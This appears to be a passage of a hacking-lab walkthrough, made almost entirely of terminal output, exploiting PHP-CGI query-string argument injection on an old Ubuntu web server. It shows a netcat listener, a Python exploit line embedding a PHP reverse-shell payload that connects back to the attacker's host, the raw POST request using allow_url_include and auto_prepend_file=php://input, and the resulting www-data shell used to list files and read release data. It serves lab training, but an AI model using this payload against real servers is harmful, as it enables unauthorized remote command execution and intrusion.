 ```
root@attackdefense:~# nc -nvlp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.0.26.110.
Ncat: Connection from 10.0.26.110:41870.

```

```php
def cgi_exploit():
        pwn_code = """<?php $sock=fsockopen("10.10.21.4",1234);exec("/bin/sh -i <&4 >&4 2>&4");?>"""
```

```
root@attackdefense:~# nc -nvlp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234

```

```
root@attackdefense:~# python 18836.py 10.0.26.110 80
POST /?-dallow_url_include%3don+-dauto_prepend_file%3dphp://input HTTP/1.1
Host: 10.0.26.110
Content-Type: application/x-www-form-urlencoded
Content-Length: 75

<?php $sock=fsockopen("10.10.21.4",1234);exec("/bin/sh -i <&4 >&4 2>&4");?>

```

```
root@attackdefense:~# nc -nvlp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.0.26.110.
Ncat: Connection from 10.0.26.110:41912.
sh: no job control in this shell
sh-3.2$ /bin/bash -i
/bin/bash -i
bash: no job control in this shell
www-data@d1d6a9361621:/var/www$ ls -al
ls -al
total 88
drwxr-xr-x  1 www-data www-data  4096 May 15 09:57 .
drwxr-xr-x  1 root     root      4096 May 20  2012 ..
-rw-------  1 www-data www-data   883 May 15 09:57 .bash_history
drwxrwxrwt  2 root     root      4096 May 20  2012 dav
drwxr-xr-x  8 www-data www-data  4096 May 20  2012 dvwa
-rw-r--r--  1 www-data www-data   891 May 20  2012 index.php
drwxr-xr-x 10 www-data www-data  4096 May 14  2012 mutillidae
drwxr-xr-x 11 www-data www-data  4096 May 14  2012 phpMyAdmin
-rw-r--r--  1 www-data www-data    19 Apr 16  2010 phpinfo.php
drwxr-xr-x  3 www-data www-data  4096 May 14  2012 test
drwxrwxr-x 22 www-data www-data 20480 Apr 19  2010 tikiwiki
drwxrwxr-x 22 www-data www-data 20480 Apr 16  2010 tikiwiki-old
drwxr-xr-x  7 www-data www-data  4096 Apr 16  2010 twiki
www-data@d1d6a9361621:/var/www$ cat /etc/*release
cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=8.04
DISTRIB_CODENAME=hardy
```